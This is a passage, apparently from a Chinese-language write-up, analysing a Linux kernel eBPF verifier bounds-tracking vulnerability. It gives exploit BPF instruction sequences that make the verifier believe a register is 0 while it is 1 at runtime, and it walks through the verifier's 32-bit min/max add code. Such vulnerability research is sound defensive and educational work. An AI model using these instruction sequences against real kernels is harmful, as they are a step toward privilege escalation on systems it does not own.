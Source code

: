 ```c

// (3) trigger the vulnerability
        BPF_ALU64_REG(BPF_AND, BPF_REG_6, BPF_REG_8),   // (5f) r6 &= r2    r6: u32_min_value=1, u32_max_value=0
```

#### 2-2 构造 verifier:0  tuntime:1

```c
// (4) 构造 r5 (r5也是MAP载入的值——0): u32_min_value = 0, u32_max_value = 1, var_off = {mask = 0xFFFFFFFF00000001; value = 0x0}
        BPF_JMP32_IMM(BPF_JLE, BPF_REG_5, 1, 1),    // (b6) if w5 <= 0x1 goto pc+1   r5: u32_min_value = 0, u32_max_value = 1, var_off = {mask = 0xFFFFFFFF00000001; value = 0x0}
    BPF_EXIT_INSN(),
// (5) 构造 r6:   verifier:0  tuntime:1
        BPF_ALU64_IMM(BPF_ADD, BPF_REG_6, 1),     // (07) r6 += 1     r6: u32_max_value = 1, u32_min_value = 2, var_off = {0x100000000; value = 0x1}
    BPF_ALU64_REG(BPF_ADD, BPF_REG_6, BPF_REG_5), // (0f) r6 += r5   r6: verify:2   fact:1   !!!!!!!!!!!!!!!!!!!!!!!
    BPF_MOV32_REG(BPF_REG_6, BPF_REG_6),      // (bc) w6 = w6    32位扩展为64位
    BPF_ALU64_IMM(BPF_AND, BPF_REG_6, 1),     // (57) r6 &= 1    r6: verify:0   fact:1 
```

**r6 += r5分析**：目前寄存器状态，r6—`u32_min_value=2, u32_max_value=1, var_off = {mask = 0x100000000; value = 0x1}`，r5—`u32_min_value=0, u32_max_value=1, var_off = {mask = 0xFFFFFFFF00000001; value = 0x0}`。

```c
static int adjust_scalar_min_max_vals(struct bpf_verifier_env *env,
                                      struct bpf_insn *insn,
                                      struct bpf_reg_state 
                                             *dst_reg,
                                      struct bpf_reg_state src_reg)
{
  ...
    switch (opcode) {
        case BPF_ADD:
            scalar32_min_max_add(dst_reg, &src_reg);    // [1] <---------
            scalar_min_max_add(dst_reg, &src_reg);
            dst_reg->var_off = tnum_add(dst_reg->var_off, 
                                        src_reg.var_off);
            break;

...
    __update_reg_bounds(dst_reg);             // [2]
  __reg_deduce_bounds(dst_reg);             // [3]
  __reg_bound_offset(dst_reg);              // [4]
  return 0;
}
// [1] 由于r5的低32位是0或1，r6的低32位是1，所以相加结果为1或2，所以低32位的1、2位都为unknown。其mask=0xffffffff 00000003
static void scalar32_min_max_add(struct bpf_reg_state *dst_reg,
                                 struct bpf_reg_state *src_reg)
{
    s32 smin_val = src_reg->s32_min_value;
    s32 smax_val = src_reg->s32_max_value;
    u32 umin_val = src_reg->u32_min_value;
    u32 umax_val = src_reg->u32_max_value;

...
    if (dst_reg->u32_min_value + umin_val < umin_val ||
        dst_reg->u32_max_value + umax_val < umax_val) {   // 判断是否越界
            dst_reg->u32_min_value = 0;
            dst_reg->u32_max_value = U32_MAX;
        } else {
            dst_reg->u32_min_value += umin_val;       // 没越界则直接相加，min+min, max+max
            dst_reg->u32_max_value += umax_val;
```